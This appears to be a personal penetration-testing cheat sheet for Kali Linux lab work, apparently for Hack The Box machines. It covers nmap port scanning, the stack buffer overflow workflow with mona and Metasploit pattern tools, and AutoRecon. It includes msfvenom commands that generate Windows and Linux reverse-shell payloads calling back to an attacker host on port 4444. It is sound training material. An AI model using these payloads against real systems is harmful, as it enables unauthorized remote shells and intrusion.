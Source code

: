 ## Kali General

- Faster NMAP full port scan. Finds all open ports than loops through service and version detection for those discovered
  - `ports=$(nmap -p- --min-rate=1000 -sT  -T4 10.10.10.116 | grep ^[0-9] | cut-d '/' -f 1 | tr '\n' ',' | sed s/,$//)nmap -sC -sV -p$ports -sT 10.10.10.116`


## Buffer Overflow
  
- Spike
  - `generic_send_tcp 192.168.174.1 31337 ~/Code/buffer-overflow/stats.spk 0 0`
- Fuzz
  - `~/Code/buffer-overflow/fuzzer.py`
- Generate unique pattern:
  - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bufferlen>`
- Finding the offset
  - `~/Code/buffer-overflow/offset.py`
  - (1) `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bufferlen> -q <EIP address>`
  - (1) `!mona findmsp`
- Confirm offset
  - `~/Code/buffer-overflow/overwrite_eip.py`
- Find badchars
  - `~/Code/buffer-overflow/badchars.py`
- Find Jump
  - `!mona modules`
  - `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb > JMP ESP`
  - (1) `!mona find -s "\xff\xe4" -m <unprotected module>`
  - (1) `!mona jmp -r ESP -m <unprotected module> / !mona jmp -r esp -cpb "<badchars>"`
- Exploit buffer overflow
  - (1) `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
  - (1) `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 -f c -b "\x00,\x20"`
  - `~/Code/buffer-overflow/exploit_buffer_overflow.py`

## Recon

- `python3 ~/Repositories/AutoRecon/autorecon.py 10.10.10.74 --single-target -o /root/Recon/HTB/Chatterbox/`
